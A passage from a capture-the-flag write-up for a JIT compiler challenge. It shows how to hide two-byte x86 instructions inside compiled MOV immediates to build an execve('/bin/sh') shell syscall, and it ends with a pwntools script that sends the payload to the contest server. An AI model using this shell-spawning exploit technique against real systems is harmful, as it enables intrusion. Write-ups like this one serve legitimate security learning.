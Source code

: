 ```

// Store the constructed value in eax and return so that it's printed. Makes checking for success easier.
LDR(A, 1)
RET()
```
![/bin/sh in r12](/images/google19/jit/bin_sh_r12.png)

### Execve syscall
We'll use 2 byte instructions to perform an `execve(/bin/sh)` syscall. Remember that `eax` no longer points to the data segment, so we'll need to fix it again to prevent segfaults.
```
JMP(００26)
MOV(A, 22614) // push rsi; pop rax
```

Next, we need to get the pointer to `/bin/sh` into `rdi`. We'll do this using `push rsi; pop rdi`.
```
JMP(００28)
MOV(A, 24406) // push rsi; pop rdi
```

Now we'll set rsi and rdx to null.
```
JMP(００30)
MOV(A, 63025) // xor rsi, rsi

JMP(００32)
MOV(A, 53809) // xor rdx, rdx
```

We also need to set rax to `0x3b`, which is the execve syscall number, but remember that once we do this, the 2 byte instructions will break again. If we do it using a regular `MOV` instruction instead of a 2 byte instruction, we can avoid any issues.
```
MOV(A, 59)
```

Finally, perform the syscall.
```
JMP(００35)
MOV(A, 1295) // syscall
```

## Solving the challenge
Whilst this works in the compiler, we need to run it through the remote java interface. Given that we've already got the program in a file, we'll simply send it's contents using pwntools:
```python
#! /usr/bin/env python2
import pwn

def main():
    if pwn.args.REMOTE:
        challenge = pwn.remote("jit.ctfcompetition.com", 1337)
    elif pwn.args.GDB:
        pwn.log.error("DEBUGGING THIS IS HAARDD")
    else:
        challenge = pwn.process("./run.sh")

    with open("input", "r") as input_file:
        payload = input_file.read()

    challenge.sendline(payload)
    challenge.sendline("")

```